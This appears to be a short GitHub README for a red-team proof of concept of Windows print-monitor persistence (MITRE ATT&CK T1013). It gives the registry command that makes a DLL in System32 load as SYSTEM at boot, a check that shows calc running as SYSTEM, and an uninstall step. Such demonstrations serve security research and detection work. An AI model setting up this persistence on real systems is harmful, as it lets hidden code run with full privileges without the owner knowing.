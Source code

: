 # Print Monitor

Print monitor persistence. 

[T1013](https://attack.mitre.org/wiki/Technique/T1013)

## Install
      
Copy the DLL to C:\Windows\System32\PrintMonitor.dll (or any name.dll in C:\Windows\System32\ is fine too)

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Print\Monitors\Tmp2 /V Driver /t REG_SZ /d PrintMonitor.dll
```
 
(feel free to change Tmp2 to anything else if you want)

**Restart the system**
      
You should now see calc running as SYSTEM. To verify, open a cmd prompt as an administrator and run

```      
tasklist /v |findstr calc
```
 
## Uninstall
    
```
reg delete HKLM\SYSTEM\CurrentControlSet\Control\Print\Monitors\Tmp2 /F
```

## Author

Josh Abraham (josh.abraham@praetorian.com)
